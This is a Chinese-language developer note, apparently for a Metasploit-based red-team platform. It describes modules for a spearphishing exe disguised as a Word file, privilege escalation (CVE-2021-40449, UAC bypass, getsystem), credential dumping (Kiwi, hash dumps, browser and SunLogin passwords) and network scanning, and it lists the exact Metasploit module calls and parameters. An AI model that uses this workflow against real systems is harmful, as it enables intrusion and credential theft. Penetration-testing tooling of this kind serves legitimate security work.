 ## 模块相关
```text
模块参考 http://vulhub.org.cn/attack
```
### 模块分类
#### python本地模块
```python
# 1、InitialAccess_SpearphishingAttachment_FakeWordDoc.py 伪造成Word文档的exe文件
```
#### 内存中执行python模块
```python

```
### 初始访问
#### 2、伪造成Word文档的exe文件
```python
# python模块运行逻辑
# 1、从前端传递的数据中获取参数
# 2、调用Msf生成shellcode
# 3、将shellcode传递给c++代码,通过jinja2模板渲染实现
# 4、c++代码中实现了捆绑word和exe,点击word.exe后拷贝exe到document下并释放doc,执行exe连接Msf
```
#### 1、dnslog服务器
```python

```

### 权限提升
#### 1、获取目标主机补丁信息
```python
# python模块运行逻辑
# 1、从前端中获取运行模块名称 PrivilegeEscalation_EnumPatchExample_Windows.py
# 2、在Python模块中调用Msf,向msf发送参数 ['post', 'windows/gather/enum_patches', {'SESSION': 2}, False, 120]
# 3、进程对象入 XCACHE_MODULES_TASK_LIST
# 4、ModuleJobsScheduler.add_listener(self.deal_result)监控post_module_intent._thread_run的PrivilegeEscalation_EnumPatchExample_Windows.py运行完成
# 5、进入deal_result的store_executed_result, 从XCACHE_MODULES_TASK_LIST取进程对象,保存结果
```
#### 2、搜索可用cve
```python
# msf模块运行逻辑
# 1、从前端中获取运行模块名称 PrivilegeEscalation_ExploitationForPrivilegeEscalation_Windows
# 2、向msf发送参数 ['post', 'windows/manage/powershell/exec_powershell_mem', {'SESSION': 3, 'SCRIPT': 'KBCollects.ps1', 'TIMEOUT': 60}, True, 3]
# 3、msf执行KBCollects.ps1,并将被控主机的补丁数据返回, 数据发送到sub_msf_module_result_thread
# 4、进程回调 加载CVEKB.db,输出对比数据
```
#### 3、cve_2021_40449
```python
# 1、发送给msf的参数带有'exploit', 'windows/local/cve_2021_40449_api',调用Msf中的cve_2021_40449进行提权
```
#### 4、bypassuac
```python
# python模块运行逻辑 PrivilegeEscalation_BypassUserAccountControl_Windows
# 1、检测模式仅列出viper中存在的pypassuac方法,不检测
# 2、自动模式,遍历所有方法逐个执行
# 3、windows/local/bypassuac_comhijack, 调用msf, 向msf发送参数, 通过self.deal_result监控post_module_intent._thread_run执行完成
# 4、如执行成功,则上线
```
#### 5、windows system提权
```python
# msf模块运行逻辑
# 1、前端调用模块PrivilegeEscalation_ProcessInjection_Getsystem
# 2、向Msf发送参数 ['post', 'windows/escalate/getsystem_api', {'SESSION': 10, 'TECHNIQUE': 1}, True, 3]
# 3、msf返回数据到sub_msf_module_result_thread, 根据uuid到XCACHE_MODULES_TASK_LIST取进程对象, 回调
```
### 凭证访问
#### 1、获取windows内存密码 CredentialAccess_CredentialDumping_KiwiOnLocal
```python
# msf模块运行逻辑
# 1、从前端获取调用的模块名称 CredentialAccess_CredentialDumping_KiwiOnLocal
# 2、向MSF发送参数 ['post', 'windows/gather/credentials/kiwi_api', {'SESSION': 12}, True, 3]
# 3、进程和msf返回放入队列XCACHE_MODULES_TASK_LIST
# 4、sub_msf_module_result_thread 订阅获取数据, 进程回调, 格式化密码数据, 保存密码数据CredentialModel
```
#### 2、获取用户hash CredentialAccess_CredentialDumping_WindowsHashDump
#### 3、获取浏览器密码-1 CredentialAccess_CredentialDumping_BrowserDataCSharp
```python
# msf模块运行逻辑
# 1、向MSF发送参数 发送给Msf参数为: ['post', 'windows/manage/execute_assembly_module_api', {'SESSION': 12, 'ASSEMBLY': 'BrowserGhost', 'WAIT': 10}, True, 3]
```
#### 4、获取浏览器密码-2 CredentialAccess_CredentialInFiles_BrowserData
```python
# msf模块运行逻辑
# 1、前端传递模块名称 CredentialAccess_CredentialInFiles_BrowserData
# 2、向Msf发送参数 ['post', 'multi/manage/upload_and_exec_api', {'SESSION': 12, 'LPATH': 'hbd.exe', 'RESULTFILE': 'hbd_results.zip', 'CLEANUP': True}, True, 3]
# 3、msf上传文件到目标主机 /root/metasploit-framework/scripts/pe/hbd.exe -> C:\\\\Windows\\\\system32/1649917625.exe
# 4、在目标主机上执行目标文件 C:\\\\Windows\\\\system32/1649917625.exe
# 5、从目标主机上下载结果到msf C:\\\\Windows\\\\system32/hbd_results.zip to /root/.msf4/loot/1649917626-hbd_results.zip
# 6、sub_msf_module_result_thread 订阅获取数据, 进程回调
```
#### 5、获取向日葵密码
```python
# msf模块运行逻辑
# 1、前端传递模块名称 CredentialAccess_CredentialDumping_SunLogin
# 2、向msf发送参数 ['post', 'multi/manage/exec_python_with_params_api', {'SESSION': 12, 'RESET_PYTHON': True, 'SCRIPT': 'dumpSunConfig.py', 'PARAMS': 'eyJpbnB1dF9jb25maWdfcGF0aCI6IG51bGx9'}, True, 3]
```
### 信息收集
#### 1、内网存活主机扫描
```python
# msf模块运行逻辑
# 1、前端传递模块名称 Discovery_NetworkServiceScanning_PingByPython
# 2、向Msf发送参数 ['post', 'multi/manage/exec_python_with_params_api', {'SESSION': 12, 'RESET_PYTHON': True, 'SCRIPT': 'ping.py', 'PARAMS': 'eyJpcHN0ciI6ICIxNzIuMTYuMTIxLjEzNSIsICJwb3J0IjogMTM5LCAidGltZV9vdXQiOiAwLjF9', 'TIMEOUT': 600}, True, 3]
```
#### 2、端口和服务扫描
```python
# msf模块运行逻辑
# 1、前端传递模块名称 Discovery_NetworkServiceScanning_PortScanWithServiceByPython
# 2、向Msf发送参数 ['post', 'multi/manage/exec_python_with_params_api', {'SESSION': 12, 'RESET_PYTHON': True, 'SCRIPT': 'portScanWithService.py', 'PARAMS': 'eyJpcHN0ciI6ICIxNzIuMTYuMTIuMTM1IiwgInBvcnRfbGlzdCI6IFsyMSwgMjIsIDgwLCA4OCwgMTM5LCA0NDUsIDE0MzMsIDMzMDYsIDMzODksIDYzNzksIDcwMDEsIDgwODAsIDg0NDNdLCAidGltZV9vdXQiOiAwLjUsICJtYXhfdGhyZWFkcyI6IDEwfQ==', 'TIMEOUT': 3600}, True, 3]
```